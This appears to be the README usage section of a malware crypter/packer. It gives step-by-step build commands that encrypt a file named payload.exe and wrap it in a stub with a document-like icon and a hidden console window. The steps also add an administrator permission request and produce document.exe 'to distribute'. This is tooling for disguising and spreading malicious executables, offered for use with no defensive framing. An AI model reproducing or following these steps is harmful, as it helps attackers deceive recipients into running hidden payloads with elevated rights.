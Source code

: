 ## Usage

### Creating a resource file for your icon so you can embed it in the executable:
1. Put your icon in the same directory as crypter.c, stub.c, resource.rc, and manifest.xml.
2. Rename the icon to `appicon.ico`.
3. Compile the resource file: `windres resource.rc -O coff -o resource.res`
    - This will create a compiled version of your icon in the same directory titled `resource.res`.

### Creating the packed executable:
1. Put your payload executable in the same directory as crypter.c, stub.c, resource.rc, and manifest.xml.
2. Rename your payload executable to `payload.exe`.
3. Compile crypter: `gcc crypter.c -o crypter.exe`.
4. Run the crypter: `./crypter.exe`.
4. Compile stub/packer: `gcc stub.c resource.res -o document.exe -mwindows`.
    - You can change `document` to whatever you like.
    - `resource.res` adds the resource (icon) file
    - `-mwindows` supresses the console from showing.
5. Add administrator persmission request to the packed executable: `mt.exe -manifest manifest.xml -outputresource:document.exe;#1`
    - Don't forget to change `document` if you changed it earlier.
6. It will create document.exe, which you can now distribute.
